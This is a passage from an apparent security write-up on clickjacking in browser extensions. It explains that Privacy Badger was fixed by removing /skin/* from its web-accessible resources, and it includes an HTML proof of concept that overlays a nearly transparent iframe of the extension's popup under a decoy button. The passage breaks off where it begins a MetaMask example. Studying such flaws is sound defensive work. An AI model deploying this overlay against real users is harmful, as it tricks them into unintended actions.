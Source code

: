 To address this vulnerability, a straightforward solution was implemented: the removal of `/skin/*` from the list of `web_accessible_resources`. This change effectively mitigated the risk by ensuring that the content of the `skin/` directory could not be accessed or manipulated through web-accessible resources.

The fix was easy: **remove `/skin/*` from the `web_accessible_resources`**.

### PoC

```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
  iframe {
    width: 430px;
    height: 300px;
    opacity: 0.01;
    float: top;
    position: absolute;
  }

  #stuff {
    float: top;
    position: absolute;
  }

  button {
    float: top;
    position: absolute;
    top: 168px;
    left: 100px;
  }
</style>

<div id="stuff">
  <h1>Click the button</h1>
  <button id="button">click me</button>
</div>

<iframe
  src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```

## Metamask Example

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). In this case, Metamask fixed the vulnerability by checking that the protocol used to access it was **`https:`** or **`http:`** (not **`chrome:`** for example):
